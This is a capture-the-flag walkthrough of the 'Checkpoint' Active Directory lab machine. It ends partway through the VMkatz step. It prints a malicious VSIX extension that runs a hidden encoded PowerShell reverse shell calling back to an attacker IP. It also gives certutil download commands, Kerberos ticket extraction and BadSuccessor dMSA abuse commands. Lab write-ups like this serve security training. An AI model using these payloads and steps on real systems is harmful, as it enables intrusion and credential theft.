Checkpoint is a Windows Active Directory box that assumes a breach with the credentials alex.turner / Checkpoint2024!. From those credentials we restore the deleted user mark.davies, who has write access to a DevDrop SMB share that lets us plant a malicious VSIX extension for an initial foothold. From there we abuse a BadSuccessor delegated-MSA misconfiguration to impersonate a service account, and finally pull the Administrator NTLM hash out of a VM backup with VMkatz.
As always we start with an nmap scan
sudo nmap -sVC -vv -oA port_scan <IP> -Pn
Not shown: 988 filtered tcp ports (no-response)
PORT STATE SERVICE REASON VERSION
53/tcp open domain syn-ack ttl 127 Simple DNS Plus
88/tcp open kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-10-21 02:27:11Z)
135/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
139/tcp open netbios-ssn syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: checkpoint.htb, Site: Default-First-Site-Name)
445/tcp open microsoft-ds? syn-ack ttl 127
464/tcp open kpasswd5? syn-ack ttl 127
593/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp open ldapssl? syn-ack ttl 127
3268/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: checkpoint.htb, Site: Default-First-Site-Name)
3269/tcp open globalcatLDAPssl? syn-ack ttl 127
5985/tcp open http syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
So looks like we have a DC host checkpoint.htb, so lets add it to our /etc/passwd file
checking the credentials
nxc smb 10.129.76.113 -u "alex.turner" -p 'Checkpoint2024!'
SMB 10.129.76.113 445 DC01 [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB 10.129.76.113 445 DC01 [+] checkpoint.htb\alex.turner:Checkpoint2024!
So now lets enumerate the shares

but it hasn't yielded to anything, notice that smb signing is true, so this box is using kerberos authentication, so first we need to obtain a valid ticketimpacket-getTGT checkpoint.htb/alex.turner:'Checkpoint2024!' -dc-ip 10.129.76.113
and then export the ticket
export KRB5CCNAME=./alex.turner.ccache
now we also have to update the krb5.conf to make sure the realm is pointing to the checkpoint.htb dc
so using rusthound to see the AD domain
rusthound-ce --domain checkpoint.htb -n 10.129.76.113 -u alex.turner -p 'Checkpoint2024!' -z -k
Looking at the results on bloodhound, we find that our user has GenericWrite on mark.davies

with genericWrite, lets write an SPN on the user and try to crack his passwordNow with trying to read the attributes for the Mark.Davies kept failing, so its a good measure to always enumerate the writable attributes that alex.turner has using bloodyAD like so
bloodyAD --host DC.CHECKPOINT.HTB -d CHECKPOINT.HTB -u "alex.turner" -p 'Checkpoint2024!' get writable

so looks like the Mark Davies user is deleted since its belonging to theCN=Deleted Objects, but since our breached user has write access to the Deleted Objects group, we can restore this user
bloodyAD --host DC.CHECKPOINT.HTB -d CHECKPOINT.HTB -u "alex.turner" -p 'Checkpoint2024!' set restore "mark.davies"
[+] mark.davies has been restored successfully under CN=Mark Davies,OU=Employees,DC=checkpoint,DC=htb
So now that hes restored, lets try reading his shadow credential like we tried before, but it didn't yield to anything
so i tested that the user mark.davies with the password Checkpoint2024!

so looks like we now have a valid user. Looking at the bloodhound graph we did not find any outbound connections, but what we can do is whenever we find a new user, one important thing to do is to find whether or not he has something new to access in the SMB shares or not. We can do that using nxcnxc smb CHECKPOINT.HTB -u "mark.davies" -p 'Checkpoint2024!' --shares

so it looks like we can write to this SMB share which is usingVS Code engine 1.118.0, so googling around we found its vulnerable to CVE-2025-55319.
The vulnerability exists due to an error in the Agentic AI implementation, where a remote attacker can trick the victim into executing certain commands in the AI agent and execute arbitrary code on the system. By uploading a malicious VSIX extension to DevDrop, the extension is automatically installed when a developer opens VS Code, triggering the reverse shell payload.
So the idea of abusing this to gain initial foothold is by creating a malicious VSIX package.
Directory Structure:
evil-ext/
├── [Content_Types].xml
└── extension/
├── package.json
└── extension.js
[Content_Types].xml:
<?xml version="1.0" encoding="utf-8"?>
<Types xmlns="http://schemas.openxmlformats.org/package/2006/content-types">
<Default Extension="json" ContentType="application/json"/>
<Default Extension="js" ContentType="application/javascript"/>
</Types>
extension/package.json:
{
"name": "devtools-helper",
"displayName": "DevTools Helper",
"version": "1.0.0",
"engines": {"vscode": "^1.118.0"},
"activationEvents": ["*"],
"main": "./extension.js",
"contributes": {}
}
extension/extension.js:
const cp = require('child_process');
const os = require('os');
exports.activate = function() {
// PowerShell reverse shell payload (base64 encoded)
const payload = 'YOUR_BASE64_ENCODED_PAYLOAD_HERE';
cp.exec(`powershell -WindowStyle Hidden -NoProfile -e ${payload}`,
(error, stdout, stderr) => {
if (error) console.error(error);
});
};
exports.deactivate = function() {};
Generate Base64 Payload:
# PowerShell command
$lhost = "10.10.14.135"
$lport = 4444
$payload = @"
`$client = New-Object System.Net.Sockets.TCPClient('$lhost',$lport);
`$stream = `$client.GetStream();
[byte[]]`$bytes = 0..65535|%{0};
while((`$i = `$stream.Read(`$bytes, 0, `$bytes.Length)) -ne 0){
`$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(`$bytes,0,`$i);
`$sendback = (iex `$data 2>&1 | Out-String);
`$sendback2 = `$sendback + "PS " + (pwd).Path + "> ";
`$sendbyte = ([text.encoding]::ASCII).GetBytes(`$sendback2);
`$stream.Write(`$sendbyte,0,`$sendbyte.Length);
`$stream.Flush()
};
`$client.Close()
"@
$encoded = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($payload))
Write-Host $encoded
Package VSIX:
cd ~/evil-ext
zip -r devtools-helper.vsix '[Content_Types].xml' extension/
Step 2: Upload to DevDrop Share
smbclient //10.129.23.157/DevDrop \
-U 'checkpoint.htb/mark.davies%Checkpoint2024!' \
-c "put devtools-helper.vsix"
So now all we have to do is to catch our listener using penelope

We land as theryan.brooks user, and user flag should be in C:\Users\ryan.brooks\Desktop\user.txt

Now lets enumerate the user ryan.brooks and see whether he has any special privileges or groups we could use
so it looks like we belong to two custom groups which areCHECKPOINT\VPN-Users and CHECKPOINT\DevTeam, but circling back to the bloodhound, if we check what ryan.brooks could do

we notice he has GenericWrite tosvc_deploy and looking at the svc_deploy user, it has no outbound connections, but it belongs to the Remote Management Group, so if we could manage to winrm into the user we may find something interesting, since usually service accounts may hold more permissions than usual.
So first we need to find the NTLM hash for ryan.brooks, so we could first upload Rubeus and extract the hash through it.
# on the Attack host
python3 -m http.server 6666
# on the windows host
certutil -urlcache -split -f "http://10.10.16.102:6666/Rubeus.exe"
Now we can extract our own tickets using Rubeus like so
Rubeus.exe tgtdeleg /nowrap

then we copy this Rubeus ticket base64 encoded blob, and decode it on our machine and then convert this.kirbi ticket to a .ccache so that we could use it from our linux box
decoding the b64 ticket and saving it as .kirbi
echo "doIF1DCCBdCgAwIBBaEDAgEWooIE0DCCBMxhggTIMIIExKADAgEFoR...<SNIP>...Q0hFQ0tQT0lOVC5IVEI=" | base64 -d > ryan_brooks.kirbi
converting the ticket to .ccache
python3 /usr/share/doc/python3-impacket/examples/ticketConverter.py ryan_brooks.kirbi ryan_brooks.ccache

and then we just have to export it to ourKRB5CCNAME

now as always lets enumerate what the user ryan_brooks can write using bloodyADbloodyAD --host DC01.CHECKPOINT.HTB -d CHECKPOINT.HTB -k get writable

so we notice something that ryan.brooks can create_child on the OU=DMSAHolder, so googling around since theryan.brooks can write on the DMSAHolder OU we could abuse this using badSuccessor which is CVE-2025-53779
how badSuccessor works
Microsoft's fix: when a dMSA is created via a real migration, the KDC starts injecting the superseded account's Privilege Attribute Certificate (PAC) data and critically, its keys into material the dMSA can use. The account authorized to request that data is whoever is listed in the dMSA's msDS-GroupMSAMembership attribute (populated automatically for machines that were using the old account, plus the migration's initiator). So when DBNODE01$ requests a ticket for the newly migrated dMSA, it gets back enough of svc_dbrunner's old key material to keep decrypting tickets that were issued before the migration. Continuity preserved, nobody's daily operations interrupted.
The whole thing hinges on one attribute: msDS-ManagedAccountPrecededByLink. Whatever DistinguishedName sits in that field on the dMSA object is what the KDC treats as "the account this dMSA replaced" and it builds the PAC (and the key package) from that link alone, no cross-checking required. msDS-DelegatedMSAState tracks the status of the migration process:
Value Meaning
- 0 - Unknown / not configured
- 1 - Migration in progress
- 2 - Migration completed
- 3 - Standalone dMSA (never migrated)
That's the whole mechanism. The issue however was, there was nothing to verify that a "migration" actually took place.
Enter BadSuccessor
If PAC and key inheritance is driven entirely by one writable attribute, the obvious question an attacker would ask is: what happens if I just... write it myself?
Before Microsoft's patch, the answer was: everything you'd fear. You didn't need any rights over your intended victim at all. All you needed was the right to create a child object in any single OU in the domain, a permission so benign it rarely got audited, let alone treated as sensitive. From there:
- Create a dMSA in that OrganizationalUnit.
- As Creator Owner of your new object, you already have full control over its attributes, no extra grants needed.
- Set
msDS-ManagedAccountPrecededByLinkto the DistinguishedName of literally any account in the domain: Domain Admins, a DC's machine account, Protected Users, didn't matter. - Set
msDS-DelegatedMSAStateto 2, simulating a completed migration. - Write your principal into the
msDS-GroupMSAMembershipon the dMSA you own. - Request a ticket for your dMSA. The KDC, having no way to distinguish a real migration from a two-attribute fabrication, hands you a PAC (and with it keys) carrying every privilege, and every group membership of the account being "succeeded" / migrated.
so we could even see it more detailed using the get writable -detail, and notice we have write on the 2 attributes that are needed to perform this attack.
bloodyAD --host dc01.checkpoint.htb -d CHECKPOINT.HTB -k get writable --detail

So we could abuse this either by usingbloodyAD or using nxc ldap -M badsuccessor, but ill do it using bloodyAD since its more reliable
bloodyAD --host dc01.checkpoint.htb -d CHECKPOINT.HTB -k add badSuccessor "evilSuccessor" -t "CN=svc_deploy,OU=ServiceAccounts,DC=checkpoint,DC=htb" --ou "OU=DMSAHolder,DC=checkpoint,DC=htb"

so now that we have the.ccache of evilSuccessor, we can confirm the malicious dMSA looks the way we want it to
bloodyAD --host dc01.checkpoint.htb -d CHECKPOINT.HTB -k get object 'evilSuccessor$' -attr '*'

or you could just automate all we just did using netexec like so
netexec ldap CHECKPOINT.HTB -k -M badsuccessor -o TARGET_OU='OU=DMSAHolder,DC=checkpoint,DC=htb' DMSA_NAME=attacker TARGET_ACCOUNT=svc_deploy
so now that we have the badSuccessor$ ticket, we could transfer it to our windows host and then use it to impersonate the user svc_deploy, which is part of the BackUp Access group

so this highly suggests something in the smb sharesbut first we need to convert it back to .kirbi so we could do this like so
python3 /usr/share/doc/python3-impacket/examples/ticketConverter.py evilSuccessor_X7.ccache evilSuccessor.kirbi
and then transfer the .kirbi to the host


and thenptT using Rubeus

so now if we check the shares from ourccache using nxc like so
nxc smb CHECKPOINT.HTB -k --use-kcache --shares

we notice that the usersvc_deploy has READ on VMBackups
so we could use smbclient to read the shares like so
smbclient //10.129.23.157/VMBackups --use-krb5-ccache=evilSuccessor_X7.ccache
or just use -M spider_plus from nxc
nxc smb CHECKPOINT.HTB -k --use-kcache -M spider_plus
i fell into some issues with smbclient, so all i did was just use evil-winrm to get winrm access since the user its impersonating which is svc_deploy is a member of the Remote Management Group like so
evil-winrm -i DC01.CHECKPOINT.HTB -r CHECKPOINT.HTB -k evilSuccessor_X7.ccache

so it looks like we have a Backup file
So it looks like its a virtual machine backup, so we could use VMkatzDownload VMkatz:
certutil -urlcache -f http://10.10.14.135:8000/vmkatz.exe vmkatz.exe
Run VMkatz on Snapshot:
